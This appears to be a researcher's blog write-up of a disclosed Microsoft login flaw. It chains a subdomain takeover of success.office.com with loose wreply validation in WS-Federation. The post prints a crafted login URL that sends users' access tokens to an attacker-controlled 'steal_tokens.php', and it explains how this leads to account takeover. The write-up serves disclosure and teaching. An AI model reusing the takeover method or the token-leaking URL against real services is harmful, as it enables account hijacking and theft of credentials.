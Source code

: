 ```yaml
---
layout: post
title: Leaking access tokens from Microsoft apps chaining two vulnerabilities
---
```


---




### First Issue:

During the initial recon I retrieved the list of all possible subdomains of office.com pointing to many Azure instances. One of them was success.office.com which was not getting resolved to any IP address, but had a CNAME pointing to an Azure web app instance `successcenter-msprod`. 
Chances are that you can takeover an Azure instance if the domain is not getting resolved to it. So I tried to create a web app with the name `successcenter-msprod` in my Azure portal
and it was accepted as a valid name. In other words, the previous instance with that name had been removed and is now free.
Which basically means, whatever we host on `successcenter-msprod`; `success.office.com` would point to it as the CNAME record specifies. 

### Second Issue:

Microsoft uses WS Federation for it's implementation of a centralized login system for most of the applications including Outlook, Sway, Microsoft Store etc. WS Fed is similar to Oauth. 
`wreply` in WS Fed is the counterpart of `redirect_url` in Oauth. If you read about Nir Goldshlager's <a href="http://nirgoldshlager.blogspot.com/">Facebook Oauth bug series</a>, you will understand
the dangers of not using an exact URL match (or not properly validating) for wreply or redirect_url wherever possible. Here in this case, Microsoft 
was allowing any subdomains of office.com (*.office.com) to be a valid wreply URI. 


Since one of their subdomain was in my control, I could use the domain as a valid `wreply` url and was able to leak the access tokens:

`https://login.live.com/login.srf?wa=wsignin1.0&rpsnv=13&ct=1529775349
&rver=6.7.6643.0&wp=MBI_SSL&wreply=https://success.office.com/steal_tokens.php
&lc=1033&id=292666&lw=1&fl=easi2&pcexp=true&uictx=me`

Basically, if any user who has already been authenticated (or going to authenticate), "clicked" on a crafted link with the above changes, the tokens would get leaked and this token can be exchanged for a session token and subsequently an account takeover would result.


<img src="https://raw.githubusercontent.com/sahadnk72/sahadnk72.github.io/master/files/outlook.jpg" />

<a href="https://www.safetydetective.com/blog/microsoft-outlook/"></a>

### Media Coverage:

This finding has gained some media attention. A few of them are listed below:

#### NDTV: <a href="https://www.ndtv.com/kerala-news/kerala-based-security-engineer-spots-bug-in-microsoft-office-365-outlook-1961352">Link</a>
#### TechCrunch: <a href="https://techcrunch.com/2018/12/11/microsoft-login-bug-hijack-office-accounts/">Link</a>
#### MensXP: <a href="https://www.mensxp.com/technology/hacks/48785-a-kerala-based-engineer-uncovered-a-bug-that-could-expose-more-than-40-crore-microsoft-accounts.html">Link</a>
#### Mashable: <a href="https://mashable.com/article/microsoft-account-takeover-vulnerability">Link</a>
#### IndiaTimes: <a href="https://www.indiatimes.com/technology/news/this-young-hacker-from-kerala-found-a-microsoft-bug-saving-the-account-data-of-40-crore-users-358466.html">Link</a>

